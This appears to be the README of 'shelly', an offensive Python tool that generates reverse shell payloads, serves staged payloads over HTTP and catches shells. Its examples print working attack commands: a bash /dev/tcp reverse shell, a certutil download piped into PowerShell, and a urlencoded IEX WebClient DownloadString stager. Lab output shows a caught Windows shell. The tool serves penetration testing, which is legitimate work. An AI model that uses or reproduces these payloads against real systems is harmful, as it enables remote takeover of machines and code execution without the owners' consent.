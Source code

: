 # shelly
(mainly reverse shell) payload generator (and shell catcher) written in python2.7

Tool created to automate the creation of payloads to get a reverse shell, making easier to encode it, or serve it using a stager. It's made in a way that is very easy to add more payloads, stagers and connectors.

### Payloads
* reverse_icmp_powershell
* reverse_tcp_bash
* reverse_tcp_bash (using setsid)
* reverse_tcp_bash_openssl (encrypts connection)
* reverse_tcp_netcatbsd (no -e option)
* reverse_tcp_perl
* reverse_tcp_php
* reverse_tcp_phpmonkey (oneliner based on pentest monkeys php rev shell)
* reverse_tcp_powercat (powershell, stager required)
* reverse_tcp_powershell
* reverse_tcp_python
* reverse_udp_dnscat2(powershell, stager required)
* reverse_udp_netcatbsd (no -e option)
* reverse_udp_perl
* reverse_udp_python

### Stagers
Various techinques used to deliver staged payloads. Only http at the moment:
* certutil & powershell -ep bypass -nop -f
* certutil & type 2 powershell -nop -
* echo IEX Webclient 2 powershell -nop -


### Connectors
Connectors are the confguration settings that allow to chatch the shell executed for the payload
* reverse_icmp_icmpsh (require have installed icmpsh and setup the connector file with correct path, elevated privs)
* reverse_tcp_netct listener
* reverse_tcp_ncat_ssl (ssl encrypted listener)
* reverse_udp_dnscat2 (require have ruby + server installed and working prior to use it)
* reverse_udp_netcat listener

## Installation
* ```git clone https://github.com/ompamo/shelly.git```
* configure BASE_PATH on 'shelly' file. Default: /opt/shelly
* ```ln -s /opt/shelly/shelly /usr/local/bin/shelly```
* To enable bash-completion add to your ~/.bashrc file: ```eval "$(register-python-argcomplete shelly)"```
* Install required libs:````pip install -r requirements.txt```

## Extra features
* Auto copy payloads to paperclip (xclip required)
* Generate urlencoded payloads

## Examples
* Generating a reverse tcp bash shell payload
```
root@kali:/opt/shelly# ./shelly rev --payload reverse_tcp_bash --lhost 10.0.2.11 --lport 1234
[*] Payload generated:
/bin/bash -i >& /dev/tcp/10.0.2.11/1234 0>&1
```
* Getting the info for that payload
```
root@kali:/opt/shelly# ./shelly show payload reverse_tcp_bash
[*] bash TCP reverse shell payload
    Info          : bash command to spawn a reverse shell. No special opts required.
    Required Opts : ['LHOST', 'LPORT']
    Connector     : reverse_tcp_netcat
    Payload       : /bin/bash -i >& /dev/tcp/LHOST/LPORT 0>&1
```
* Checking stager info and spawning a PS reverse shell using a web stager on port 8080 and catching the shell
```
root@kali:/opt/shelly# ./shelly rev -p reverse_tcp_powershell -H 10.0.2.11 -P 4444 --stager web_certutil_type2powershell --sport 8080 --param1 c:\\Windows\\Tasks --listen 
[*] Payload generated:
certutil -urlcache -split -f http://10.0.2.11:8080/dJaBEjxo1r c:\Windows\Tasks\dJaBEjxo1r.txt & type c:\Windows\Tasks\dJaBEjxo1r.txt | powershell -nop -
[*] Serving stage at port 8080
10.0.2.4 - - [16/May/2018 14:58:31] "GET /dJaBEjxo1r HTTP/1.1" 200 -
[*] Part 1 of 2 sent
10.0.2.4 - - [16/May/2018 14:58:31] "GET /dJaBEjxo1r HTTP/1.1" 200 -
[*] Part 2 of 2 sent

[*] Reverse TCP Netcat listener - No additional info
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 10.0.2.4 49196 received!

PS C:\> 

```
* Also we can get it urlencoded (to work with ie with curl or other tools)
```
root@kali:/opt/shelly# ./shelly rev -p reverse_tcp_powershell -H 10.0.2.11 -P 4444 --stager web_echo2powershell --urlencode -l
[*] Payload generated:
echo%20IEX%28New-Object%20Net.WebClient%29.DownloadString%28%27http%3A%2F%2F10.0.2.11%3A80%2Fu5KWfOkL6b%27%29%20%7C%20powershell%20-nop%20-
[*] Serving stage at port 80
...
```

### External scripts used on this project as payloads
* [PowerCat.ps1](https://github.com/besimorhino/powercat) from Besimorinho
* [Inovke-PowerShellIcmp.ps1](https://github.com/samratashok/nishang) from Samratashok
* [dnscat2.ps1](https://github.com/lukebaggett/dnscat2-powershell) from Luke Bagget
* [php-reverse-shell](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz) from PentestMonkey
